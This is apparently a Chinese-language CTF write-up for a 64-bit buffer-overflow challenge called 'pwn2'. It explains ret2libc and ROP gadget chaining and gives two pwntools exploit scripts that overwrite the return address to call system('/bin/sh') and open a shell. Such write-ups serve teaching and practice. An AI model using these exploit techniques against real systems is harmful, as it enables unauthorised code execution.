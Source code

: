 一樣有 magic 函式，裡面變成`system('/bin/ls')`
但是我們想要的是 /bin/sh

binary中沒有 /bin/sh 可以去 .so 裡面找

![](https://i.imgur.com/1VAqHx9.png)

透過 ldd 發現是用 libc.so.6 (題目有給)

題目檔案是 64-bit
> pwn2: ELF 64-bit LSB executable, x86-64

可以利用 ret2libc 手法 搜集 pop_rdi_ret, binsh_addr, system_addr

![](https://i.imgur.com/bN75qUA.png)

> pop_rdi_ret 0x00000000004006d3

![](https://i.imgur.com/sKcGyCc.png)

> system_libc_addr 0x7ffff7a52390

> binsh_libc_addr 0x7ffff7b99d57


```python
from pwn import *
#p = remote('10.140.0.8', 11112)
p = process('./pwn2')
offset = 'a' * 16
target_addr = 0x04005f7
prr = p64(0x00000000004006d3)
binsh = p64(0x7ffff7b99d57)
system = p64(0x7ffff7a52390)

payload = offset + prr + binsh + system
p.sendline(payload)
p.interactive()
```


比賽時在local測試一直不行，找不出原因(ubuntu18.04)。
後來用16.04才發現local可以，但是也無法連到遠端測試了

---

ret2libc 行不通，因為不知道遠 libc 位置 ， 直接串 ROP即可

```python
from pwn import *

r = process("./pwn2")
elf = ELF('./pwn2')
context(arch='amd64',log_level='debug')

offset = 'a'*16
pop_rsi_ret = 0x4006d1
pop_rdi_ret = 0x4006d3

buf = 0x601010

payload = flat([
                offset,
                pop_rsi_ret,
                buf,
                'a' * 8,
                elf.plt['read'],
                pop_rdi_ret,
                buf,
                elf.plt['system'],
                ])
r.sendline(payload)
r.sendline("/bin/sh")
r.interactive()

```
